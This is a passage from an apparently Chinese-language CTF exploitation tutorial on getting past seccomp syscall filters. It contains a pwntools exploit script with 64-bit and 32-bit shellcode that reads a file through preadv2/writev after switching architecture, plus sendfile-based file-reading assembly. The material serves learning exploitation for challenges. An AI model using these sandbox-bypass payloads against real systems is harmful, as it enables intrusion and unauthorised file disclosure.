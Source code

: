 ```python
    xor r10, r10
    xor r8, r8
    push SYS_preadv2
    pop rax
    syscall
    
    push 1
    pop rdi
    push 0x1
    pop rdx
    push 0x100
    lea rbx, [rsp+8]
    push rbx
    mov rsi, rsp
    push SYS_writev
    pop rax
    syscall
'''

io = process('./test')
payload = asm(shellcode_64_1).ljust(0x100, b'\0')
payload += asm(shellcode_32, arch='i386', bits=32)
payload = payload.ljust(0x200, b'\0')
payload += asm(shellcode_64_2)
io.send(payload)
io.interactive()
```

需要注意的是32位的系统调用使用的是`int 0x80`指令触发，且传参使用的寄存器也有所不同（`rbx`、`rcx`、`rdx`、`rsi`、`rdi`）。既然转到32位可以绕过基于系统调用号的检查，那么自然而然地，我们也可以进行扩展，如果禁用了64位的所有`read`与`write`，或许也可以通过使用32位的`read`和`write`相关系统调用完成读写操作。这一部分就交给读者自行探索。

# 0x06. 其他

如果题目禁用了所有与`read`和`write`相关，也就是上面提到的与读写相关的所有系统调用，我们又应该如何应对呢？实际上seccomp的绕过姿势有很多，这里介绍一下sendfile，至于其他的技巧将在下一篇文章中介绍。

## A. sendfile (nr=40)

这是一个很好用的系统调用，它允许将文件数据从一个文件描述符直接发送到另一个文件描述符，而且不需要经过缓冲区拷贝，被称为“零拷贝技术”，这一技术也被应用于`mmap`等系统调用中。可以说这个系统调用用起来比`read`+`write`还要简单。

```c
    ssize_t sendfile(int out_fd, int in_fd, off_t* offset, size_t count);
```

示例：

```masm
    mov rdi, 1
    mov rsi, 3
    push 0
    mov rdx, rsp
    mov r10, 0x100
    push SYS_sendfile
    pop rax
    syscall
```